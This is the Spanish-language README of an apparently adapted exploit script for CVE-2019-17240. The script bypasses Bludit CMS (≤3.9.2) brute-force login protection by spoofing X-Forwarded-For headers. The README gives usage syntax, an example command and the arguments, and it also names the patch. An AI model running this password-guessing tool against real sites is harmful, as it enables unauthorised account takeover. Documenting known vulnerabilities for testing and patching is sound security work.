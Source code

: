 # Bludit CMS: bypass brute force protection mechanism

- Autor: [rastating](https://github.com/rastating) - https://rastating.github.io/bludit-brute-force-mitigation-bypass/
- Modificación/adaptación: MrW0l05zyn
- Versiones afectadas: Bludit CMS <= 3.9.2
- CVE: [2019-17240](https://nvd.nist.gov/vuln/detail/CVE-2019-17240)
- Descripción: permite realizar bypass (eludir) el mecanismo de protección de fuerza bruta de Bludit CMS versión 3.9.2 o inferior, mediante el uso de diferentes encabezados HTTP X-Forwarded-For falsificados.
- Solución: actualice a una versión posterior a 3.9.2 o aplique el parche que se encuentra en https://github.com/bludit/bludit/pull/1090

## Uso
```
bluditCMSBypassBruteForceProtectionMechanism.py -t TARGET/HOST -l LOGIN-URL -u USERNAME -w WORDLIST
```

## Ejemplo de utilización
```
./bluditCMSBypassBruteForceProtectionMechanism.py -t http://10.0.0.0 -l /admin/ -u admin -w wordlist.txt
```

## Argumentos
```
-h, --help   show this help message and exit
-t TARGET    Target/Host
-l LOGIN     Login URL
-u USERNAME  Username
-w WORDLIST  Path wordlist
```
